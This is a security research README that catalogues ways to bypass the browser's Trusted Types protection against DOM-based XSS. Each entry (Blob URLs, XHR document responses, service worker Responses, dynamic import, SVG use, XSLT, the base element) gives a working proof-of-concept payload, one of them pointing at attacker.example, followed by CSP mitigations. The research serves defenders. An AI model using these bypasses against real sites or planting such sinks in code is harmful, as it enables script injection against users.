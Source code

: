 # Cursed Types

This repo contains list of DOM-based XSS sinks which are not subject to [Trusted Types](https://web.dev/trusted-types/) checks. Contributions welcome! 😊

## Blob URL

Trusted Types enforced on a document will be inherited to Blob URL when navigating to Blob URL. However, resulting document of the Blob URL contains stored XSS payload, and therefore it bypasses Trusted Types check.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/blob_url.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const blob = new Blob([attackerControlledString], {type: 'text/html'});
const url = URL.createObjectURL(blob);
location.href = url;
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- There is a discussion to provide an option for creating a [secure Blob URL](https://github.com/w3c/FileAPI/issues/74).

## XHR document response

XMLHttpRequest (XHR) supports [`document` response type](https://developer.mozilla.org/en-US/docs/Web/API/XMLHttpRequest/HTML_in_XMLHttpRequest), which returns parsed document of XHR response instead of text.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xhr_document.html):
```
let attackerControlledString = 'data:text/html,<img id=content src=x onerror=alert(origin)>';
const xhr = new XMLHttpRequest();
xhr.onload = function() {
  document.body.appendChild(this.response.querySelector('#content'));
}

xhr.open("GET", attackerControlledString);
// The following changes response type from text to parsed document.
xhr.responseType = "document";
xhr.send();
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- Only allow trusted endpoints in [CSP connect-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/connect-src).

## Response API

[Response API](https://developer.mozilla.org/en-US/docs/Web/API/Response/Response) can be used in several places to serve a response of a request through Service Worker. If the Response is generated from user input, this could result in Trusted Types bypasses.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/service_worker_response.html):
```
self.addEventListener('fetch', event => {
  const params = new URLSearchParams(event.request.url.split('?')[1]);
  let attackerControlledString = params.get('attackerControlledString');
  
  if (attackerControlledString) {
    init = {
      headers: {
        'Content-Type': 'text/html',
        'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"
          
      }
    };
    event.respondWith(new Response(attackerControlledString, init));
  }
});
```

```
// Assuming legit service worker returns cached content.
caches.open("v1").then(cache => {
  let attackerControlledString = '<img src=x onerror=alert(origin)>';
  init = {
    headers: {
      'Content-Type': 'text/html',
      'Content-Security-Policy': "require-trusted-types-for 'script'; trusted-types 'none';"

    }
  };
  cache.put('xss', new Response(attackerControlledString, init));
})
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## Non-DOM API based script loading

[Non-DOM API based script loading](https://github.com/w3c/webappsec-trusted-types/issues/232) currently bypasses Trusted Types.

[PoC](https://shhnjk.github.io/PoCs/cursed_types/script_loading.html):
```
let attackerControlledString = 'data:application/javascript,alert(origin)';
import(attackerControlledString);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp) + serve allow-list of script endpoints in another `script-src` directive.

## SVG `<use>` element

[SVG `<use>`](https://developer.mozilla.org/en-US/docs/Web/SVG/Element/use) element takes `href` attribute, which can import an external SVG image from given URL. This currently bypasses Trusted Types check. This was found by [Masato](https://twitter.com/kinugawamasato).


[PoC](https://shhnjk.github.io/PoCs/cursed_types/svg_use.html):
```
let attackerControlledString = 
    `data:image/svg+xml,
     <svg id="x" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
       <image href="x" onerror="alert(origin)" />
     </svg>#x`;
const svg = document.createElementNS('http://www.w3.org/2000/svg', 'svg');
const use = document.createElementNS('http://www.w3.org/2000/svg', 'use');
use.setAttributeNS('http://www.w3.org/1999/xlink', 'href', attackerControlledString);
svg.appendChild(use);    
document.body.appendChild(svg);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).
- This is likely to be fixed in the future ([reference](https://github.com/w3c/webappsec-trusted-types/issues/357)).

## document.createProcessingInstruction API

[`document.createProcessingInstruction`](https://developer.mozilla.org/en-US/docs/Web/API/Document/createProcessingInstruction) can create [processing instruction](https://developer.mozilla.org/en-US/docs/Web/API/ProcessingInstruction) node from given URL and content type. This node can be inserted to a document which is [valid as XML](https://twitter.com/kinugawamasato/status/1493901445103439876). Currently there is no Trusted Types check on `document.createProcessingInstruction`. This was found by [Masato](https://twitter.com/kinugawamasato).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/createProcessingInstruction.xml):
```
/*
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" version="1.0">
  <xsl:output method="html" />
  <xsl:template match="/">
    <script>alert(origin)</script>
  </xsl:template>
</xsl:stylesheet>
*/
let attackerControlledString = 'data:text/xml;base64,PD94bWwgdmVyc2lvbj0iMS4wIiBlbmNvZGluZz0iVVRGLTgiPz4KPHhzbDpzdHlsZXNoZWV0IHhtbG5zOnhzbD0iaHR0cDovL3d3dy53My5vcmcvMTk5OS9YU0wvVHJhbnNmb3JtIiB2ZXJzaW9uPSIxLjAiPgogIDx4c2w6b3V0cHV0IG1ldGhvZD0iaHRtbCIgLz4KICA8eHNsOnRlbXBsYXRlIG1hdGNoPSIvIj4KICAgIDxzY3JpcHQ+YWxlcnQob3JpZ2luKTwvc2NyaXB0PgogIDwveHNsOnRlbXBsYXRlPgo8L3hzbDpzdHlsZXNoZWV0Pg==';
const pi = document.createProcessingInstruction('xml-stylesheet', `href='${attackerControlledString}' type='text/xml'`);
document.insertBefore(pi, document.firstChild);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## XSLT

Some elements in [XSLT](https://developer.mozilla.org/en-US/docs/Web/XSLT) supports `disable-output-escaping` attribute (such as [`<xsl:text>`](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element/text) and [`<xsl:value-of>`](https://developer.mozilla.org/en-US/docs/Web/XSLT/Element/value-of)). When `disable-output-escaping` is set to `yes`, escaping of HTML special characters will be disabled (and therefore XSS will be triggered). Currently, Trusted Types is bypassible in this case. This was found by [Alex](https://twitter.com/insertScript).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/xslt.html):
```
let attackerControlledString = '<img src=x onerror=alert(origin)>';
const doc = document.implementation.createHTMLDocument();
const xslt = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:stylesheet');
xslt.setAttribute('xmlns:xsl', 'http://www.w3.org/1999/XSL/Transform');
const template = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:template');
template.setAttribute('match', '/');
const output = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:output');
output.setAttribute('method', 'html');
xslt.appendChild(output);
const text = document.createElementNS('http://www.w3.org/1999/XSL/Transform', 'xsl:text');
text.textContent = attackerControlledString;
text.setAttribute('disable-output-escaping', 'yes');
template.appendChild(text);
xslt.appendChild(template);
const processor = new XSLTProcessor();
processor.importStylesheet(xslt);
const fragment = processor.transformToFragment(doc, document);
document.body.appendChild(fragment);
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp).

## `<base>` element

[`<base>`](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) element takes `href` attribute, which is used to resolve any relative URLs in the document. This currently bypasses Trusted Types check. This was found by [Masato](https://twitter.com/kinugawamasato).

[PoC](https://shhnjk.github.io/PoCs/cursed_types/base.html):
```
<script>
  let attackerControlledString = 'https://attacker.example/';
  const base = document.createElement('base');
  base.href = attackerControlledString;
  document.head.appendChild(base);
</script>
<!-- Legitimate script loading -->
<script src="/foo.js"></script>
```

### Mitigations:
- Enforce [Strict CSP](https://w3c.github.io/webappsec-csp/#strict-csp) (i.e. `base-uri 'self'`).
